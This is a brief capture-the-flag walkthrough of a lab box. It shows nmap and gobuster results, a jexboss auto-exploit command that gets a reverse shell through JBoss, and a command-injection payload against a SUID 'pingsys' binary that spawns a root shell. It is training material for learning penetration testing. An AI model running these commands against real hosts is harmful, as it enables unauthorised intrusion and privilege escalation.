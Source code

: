 Started with a nmap scan
```
22 OpenSSH 7.4 CentOS
80 Dotclear 2.16.9? Apache 2.4.6 PHP 7.3.20
111 prcbind
3306 MariaDB
4446 Java Object Serialization
4457 Sharp Printer
8009 Apache Jserv
8080 Apache Tomcat Coyote JSP 1.1 JBoss 5
8083 JBoss httpd 
```
Doing a gobuster on the webserver port `80`
```
/themes
/public
/admin
/plugins
/db
/cache
/LICENSE
/var
/CHANGELOG
/CREDITS
```
Doing subdomain scan on port 80 did not find anything
Seeing that there is jboss running and googling shows a lot of different version vulnerable using the metasploit module to check says its vuln to Jboss unified invoker RCE but cant get call back so I moved to enumerating manually to see what file links we could hit  we were able to hit a couple juicy files that told us version of jboss and OS versions its running  Jboss 5 2008 build and CentOS 7 so I then moved to using a tool called jexboss which automates the exploit to a reverse shell so using this command
`python3 jexboss.py -u http://jacbotheboss.box:8080/ --auto-exploit`
and then it will ask us for RHOST and port if its vulnerable and tells us what its vulnerable to but we all ready know now we got a shell on the host as `jacob` I looked around for a bit in common places for info did not find much so I ran linpeas and found a unknown SUID binary called `pingsys` and we can exploit this for root permissions took me a little bit of googling but found out how to exploit it with this command
`/usr/bin/pingsys '127.0.0.1; /bin/sh'`
And now we are root